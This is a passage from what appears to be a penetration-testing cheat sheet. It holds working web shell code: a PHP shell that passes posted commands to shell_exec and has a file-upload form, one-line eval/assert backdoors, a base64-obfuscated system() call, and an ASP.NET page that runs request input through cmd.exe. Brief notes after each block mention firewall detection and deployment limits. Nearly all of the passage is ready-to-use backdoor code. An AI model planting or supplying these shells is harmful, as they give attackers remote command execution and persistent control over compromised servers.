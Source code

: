```php
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
}
?>
<form method="post">
    <input type="text" name="cmd" placeholder="Enter command">
    <input type="submit" value="Execute">
</form>
<form method="post" enctype="multipart/form-data">
    <input type="hidden" name="cmd" value="upload">
    <input type="file" name="file">
    <input type="submit" value="Upload">
</form>

// Obfuscated PHP Shell
<?php @eval($_POST['x']); ?>
<?php @assert($_POST['x']); ?>
<?php $x=base64_decode("c3lzdGVt");$x($_GET['c']); ?>
```

**Documentation**: PHP web shells for remote command execution and file manipulation.
**Limitations**: Web application firewalls can detect shells; file upload restrictions prevent deployment.

### ASP.NET Web Shells
```aspnet
// Simple ASP.NET Web Shell
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
void Page_Load(object sender, EventArgs e) {
    if (Request["cmd"] != null) {
        Process p = new Process();
        p.StartInfo.FileName = "cmd.exe";
        p.StartInfo.Arguments = "/c " + Request["cmd"];
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.Start();
        Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>");
    }
}
</script>
<form>
    <input name="cmd" type="text" />
    <input type="submit" value="Execute" />
</form>
```

**Documentation**: ASP.NET web shells for Windows server compromise.
**Limitations**: Requires IIS server; code execution policies may prevent shell execution.

## API Security Testing
